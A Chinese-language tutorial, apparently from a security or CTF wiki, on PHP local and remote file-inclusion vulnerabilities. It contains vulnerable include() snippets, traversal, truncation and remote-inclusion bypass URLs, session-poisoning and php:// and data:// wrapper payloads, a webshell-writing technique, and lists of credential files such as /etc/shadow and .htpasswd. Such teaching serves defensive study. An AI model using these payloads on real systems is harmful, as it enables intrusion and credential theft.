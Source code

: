 文件包含
========================================

基础
----------------------------------------
文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致了执行了非预期的代码。

::

	<?php
	    $filename  = $_GET['filename'];
	    include($filename);
	?>

例如：
$_GET['filename']参数开发者没有经过严格的过滤，直接带入了include的函数，攻击者可以修改$_GET['filename']的值，执行非预期的操作。

考虑常用的几种包含方式为:

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用 ``/proc/self/environ``

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

触发Sink
----------------------------------------
- PHP文件包含函数有以下四种
    - include
        - 在包含过程中出错会报错，不影响执行后续语句
    - include_once
        - 仅包含一次
    - require
        - 在包含过程中出错，就会直接退出，不执行后续语句
    - require_once

本地文件包含漏洞
----------------------------------------

- 无限制本地文件包含漏洞
- session文件包含漏洞
	利用条件：session的存储位置可以获取。(phpinfo()或猜测,如linux下默认存储在/var/lib/php/session目录下)
	示例：
	::

		<?php
		    session_start();
		    $ctfs=$_GET['ctfs'];
		    $_SESSION["username"]=$ctfs;
		?>

	漏洞分析:
	::

		此php会将获取到的GET型ctfs变量的值存入到session中。
		当访问http://www.ctfs-wiki/session.php?ctfs=ctfs 后，会在/var/lib/php/session
		目录下存储session的值。
		session的文件名为sess_+sessionid，sessionid可以通过开发者模式获取。

	|fileincludesessionid|

	所以session的文件名为sess_akp79gfiedh13ho11i6f3sm6s6。
	服务器的/var/lib/php/session目录下此文件内容为：
	::

		username|s:4:"ctfs";
		[root@c21336db44d2 session]# cat sess_akp79gfiedh13ho11i6f3sm6s6
		username|s:4:"ctfs"

	漏洞利用:

	::

		通过上面的分析，可以知道ctfs传入的值会存储到session文件中，如果存在本地文件包含漏洞，就可以通过
		ctfs写入恶意代码到session文件中，然后通过文件包含漏洞执行此恶意代码getshell。
		当访问http://www.ctfs-wiki/session.php?ctfs=<?php phpinfo();?>后，会在/var/lib/php/session目录下
		存储session的值。

- 有限制本地文件包含漏洞绕过
	- %00截断
		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

          ``http://www.ctfs-wiki.com/FI/FI.php?filename=../../../../../../../boot.ini%00`` 

	- 路径长度截断
		条件：windows OS，点号需要长于256；linux OS 长于4096
		::

			Windows下目录最大长度为256字节，超出的部分会被丢弃；
			Linux下目录最大长度为4096字节，超出的部分会被丢弃。

		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

		EXP:
		::

			http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././

	- 点号截断
		条件：windows OS，点号需要长于256

		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

		EXP:
		::

			http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................



远程文件包含漏洞
----------------------------------------
PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，
如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

- 无限制远程文件包含漏洞
- 有限制远程文件包含漏洞绕过
	- 问号绕过
		 ``<?php include($_GET['filename'] . ".html"); ?>`` 代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀，问号绕过如下：
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?`` 
	- #号绕过
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23`` 
	- 空格绕过
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%20`` 

url编码绕过
----------------------------------------
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过。

伪协议绕过
----------------------------------------
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
	- 命令执行
		|fileincludecommand|
	- 写入webshell
		条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马。
		|fileincludemuma|
- Base64伪协议读取文件
	payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 
- data伪协议读取文件内容
	payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``

常见的敏感信息路径：
----------------------------------------
Windows系统

::

	c:\boot.ini // 查看系统版本
	c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
	c:\windows\repair\sam // 存储Windows系统初次安装的密码
	c:\ProgramFiles\mysql\my.ini // MySQL配置
	c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
	c:\windows\php.ini // php 配置信息

Linux/Unix系统

::

	/etc/passwd 	//账户信息
	/etc/shadow 	//账户密码文件
	/usr/local/app/apache2/conf/httpd.conf	//Apache2默认配置文件
	/usr/local/app/apache2/conf/extra/httpd-vhost.conf	//虚拟网站配置
	/usr/local/app/php5/lib/php.ini		//PHP相关配置
	/etc/httpd/conf/httpd.conf 		//Apache配置文件
	/etc/my.conf 		//mysql配置文件
	/etc/hostname		//获取主机名
	/etc/httpd/logs/access_log		//apache配置log
	/etc/httpd/logs/error_log		//apache配置log
	.htaccess		//文件中的配置指令作用于.htaccess文件所在的目录及其所有子目录
	.htpasswd		//HTTP用户的basic认证密码文件，一般在/var/www(/mysite)/.htpasswd



参考链接
----------------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_
- `lfi cheat sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_

.. |fileincludesessionid| image:: ../images/fileincludesessionid.jpg
.. |fileincludemuma| image:: ../images/fileincludemuma.jpg
.. |fileincludecommand| image:: ../images/fileincludecommand.jpg